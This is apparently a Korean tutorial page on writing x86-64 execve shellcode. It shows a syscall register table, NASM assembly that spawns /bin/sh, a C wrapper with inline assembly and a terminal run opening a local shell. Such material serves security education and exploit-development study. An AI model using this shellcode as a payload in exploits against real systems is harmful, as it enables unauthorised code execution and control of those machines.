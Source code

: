 ## 3. execve 셸코드

### execve 셸코드

| %rax | system call | %rdi | %rsi | %rdx | %rcx | %r8 | %r9 |
| --- | --- | --- | --- | --- | --- | --- | --- |
| 0x3b (59) | sys_execve | const char *filename | const char *const argv[] | const char *const envp[] |  |  |  |

```nasm
;Name: S4_03_execve.s

mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp  ; rdi = "/bin/sh\x00"
xor rsi, rsi  ; rsi = NULL
xor rdx, rdx  ; rdx = NULL
mov rax, 0x3b ; rax = sys_execve
syscall       ; execve("/bin/sh", null, null)
```

```c
/*
 * Name: S4_04_execve.c
 * $ gcc -o S4_04_execve S4_04_execve.c -masm=intel
 */

__asm__
(
	".global run_sh\n"
	"run_sh:\n"
	"mov rax, 0x68732f6e69622f\n"
	"push rax\n"
	"mov rdi, rsp  # rdi = '/bin/sh'\n"
	"xor rsi, rsi  # rsi = NULL\n"
	"xor rdx, rdx  # rdx = NULL\n"
	"mov rax, 0x3b # rax = sys_execve\n"
	"syscall       # execve('/bin/sh', null, null)\n"
	"xor rdi, rdi   # rdi = 0\n"
	"mov rax, 0x3c	# rax = sys_exit\n"
	"syscall        # exit(0)"
);

void run_sh();

int main(void)
{
	run_sh();
}
```

```bash
bash $ gcc -o S4_04_execve S4_04_execve.c -masm=intel
bash $ ./S4_04_execve
sh $
uid=1001...
sh $ clear
TERM environment variable not set.
sh $
```
